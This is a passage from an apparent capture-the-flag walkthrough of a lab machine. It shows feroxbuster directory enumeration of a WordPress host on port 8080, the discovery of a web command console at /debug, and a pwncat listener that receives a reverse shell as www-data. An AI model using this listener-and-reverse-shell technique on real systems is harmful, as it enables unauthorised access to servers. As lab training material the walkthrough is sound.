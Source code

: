 

![](https://i.imgur.com/wpVDS1Y.png)


So my thoughts was maybe we will find a email address and try to reset the password and login

<br>

The registration page doesn't work so we cant login


![](https://i.imgur.com/KJL0o7K.png)


<br>


## Port 8080

After looking at Port 80 i change my focus to Port 8080 and run a feroxbuster scan on Port 80 

On port 8080 we found that a wordpress is present and some additional directory as well

```bash
301        9l       28w      311c http://10.0.2.11:8080/css
301        9l       28w      313c http://10.0.2.11:8080/debug
301        9l       28w      312c http://10.0.2.11:8080/help
301        9l       28w      314c http://10.0.2.11:8080/images
301        9l       28w      310c http://10.0.2.11:8080/js
301        9l       28w      314c http://10.0.2.11:8080/manual
301        9l       28w      313c http://10.0.2.11:8080/shell
200      353l      862w        0c http://10.0.2.11:8080/debug/index.php
301        9l       28w      317c http://10.0.2.11:8080/wordpress
```

Most of the directory is empty


![](https://i.imgur.com/qGi9Nwu.png)



![](https://i.imgur.com/nZ6xjMF.png)



But on /debug we found a command line interface


![](https://i.imgur.com/fI59QED.png)


So after some enumerating i try to run a reverse shell on the machine using pwncat

```bash
python3 -m pwncat -lp 9999
[14:17:44] Welcome to pwncat 🐈!                                                                      __main__.py:153
[14:19:03] received connection from 10.0.2.11:57444                                                        bind.py:76
[14:19:03] 0.0.0.0:9999: upgrading from /bin/dash to /bin/bash                                         manager.py:504
           10.0.2.11:57444: registered new host w/ db                                                  manager.py:504
(local) pwncat$                                                                                                      
(remote) www-data@misdirection:/var/www/html
```
